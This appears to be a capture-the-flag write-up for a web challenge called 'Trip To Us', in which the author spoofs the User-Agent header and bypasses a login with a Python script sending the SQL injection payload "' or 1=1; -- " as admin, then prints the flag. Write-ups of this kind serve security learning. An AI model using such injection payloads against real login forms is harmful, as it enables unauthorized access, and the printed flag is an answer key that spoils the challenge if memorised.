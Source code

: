 # Trip To Us

## Description
```
IIT kharakpur is organizing a US Industrial Visit. 
The cost of the registration is $1000. 
But as always there is an opportunity for intelligent minds. 
Find the hidden login and Get the flag to get yourself a free US trip ticket.
```

## Writeup

Going through the webpages I found the alt `Change User agent to 'IITIAN'`. <br/>
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>HomePage</title>
    <style>
        .container {
            text-align: center;
            border: 2px solid black;
            margin-top: 10px;
            background-color: red;
            height: 100pt;

        }
        img{
            border-radius: 10px;
        }
    </style>
</head>
<body>
    <div class="container">
    
                    <div class="container">
            <h1>YOU ARE NOT AN IITAIN , GO BACK!!!!!!!</h1>
            <img src="./Images/GoBack.webp" alt="Change User agent to 'IITIAN'">
            </div>       
                </div>
</body>
</html>
```

Making a simple script I used the found `User-Agent` to send a request. <br/>
```py
import requests

base_URL = 'https://ch66998148142.ch.eng.run/Error.php'

headers = {
    'User-Agent': 'IITIAN'
}

req = requests.get(base_URL, headers=headers)

print(req.text)
```

This revealed a `login-forms`. <br/>
```html
<!DOCTYPE html>

<html>
<head>
<title>LOGIN</title>
<link rel="stylesheet" type="text/css" href="style.css">
<style>
img{
    width: 100%;
    position: absolute;
    z-index: -1;
}
</style>
</head>

<body>
    <img class= "bg" src="./Images/IIT.avif" alt="USE username as: admin">
    <h1>Welcome to IIT Kharakpur, US trip form</h1>
    <p style="font-size:20px;"><strong>Login to get your registration ID</strong></p>
    <form action="user-validation.php" method="post">
         <h2>LOGIN</h2>
         <label>User Name</label>
         <input type="text" name="uname" placeholder="User Name"><br>
         <label>User Name</label>
         <input type="password" name="password" placeholder="Password"><br>
         <button type="submit">Login</button>
    </form>
</body>
</html>
```

To bypass the `user-authentication` with username `admin` as seen above I made another python script with a simple `SQL-Injection` as a payload. <br/>
```py
import requests

base_URL = 'https://ch66998148219.ch.eng.run/user-validation.php'

headers = {
    'User-Agent': 'IITIAN'
}

payload = {
    'uname': 'admin',
    'password': "' or 1=1; -- "
}

req = requests.post(base_URL, headers=headers, data=payload)

print(req.text)
```

Executing the script revealed the flag which concludes this writeup. <br/>
```html
$ python3 req.py

<!DOCTYPE html>
<html>
<head>
        <title>HOME</title>
        <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
     <h1>Hello, admin</h1>
     <a href="logout.php">Logout</a>
     <p class="flag">VishwaCTF{y0u_g0t_th3_7r1p_t0_u5}</p> 
</body>
</html>
```
